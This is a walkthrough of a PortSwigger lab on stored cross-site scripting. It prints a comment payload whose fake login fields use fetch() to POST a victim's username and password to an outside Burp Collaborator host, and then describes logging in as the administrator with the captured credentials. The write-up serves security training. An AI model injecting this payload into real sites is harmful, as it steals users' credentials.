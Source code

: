 # Exploiting cross-site scripting to capture passwords

## Description

The website in [this lab](https://portswigger.net/web-security/cross-site-scripting/exploiting/lab-capturing-passwords) contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. 

## Reproduction and proof of concept

1. Using Burp Suite Professional, go to the Collaborator tab.
2. Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard.
3. Enter the following payload in a blog comment, inserting your Burp Collaborator subdomain where indicated:

```text
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://dyfm57w738b9ce3s2hdcovtg177yvojd.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```
This script will make anyone who views the comment issue a POST request containing their username and password to your subdomain of the public Collaborator server.

4. Go back to the Collaborator tab, and click "Poll now". You should see an HTTP interaction. If you don't see any interactions listed, wait a few seconds and try again.
5. Take a note of the value of the victim's username and password in the POST body.

![XSS](/_static/images/xss3.png)

6. Use the credentials to log in as the administrator user.

## Exploitability

To prevent the Academy platform being used to attack third parties, the firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, use Burp Collaborator's default public server.

And there is an alternative solution to this lab that does not require Burp Collaborator: adapt the attack to make the victim post their credentials within a blog comment by exploiting the XSS to perform CSRF. This is far less subtle because it exposes the username and password publicly, and also discloses evidence that the attack was performed. 
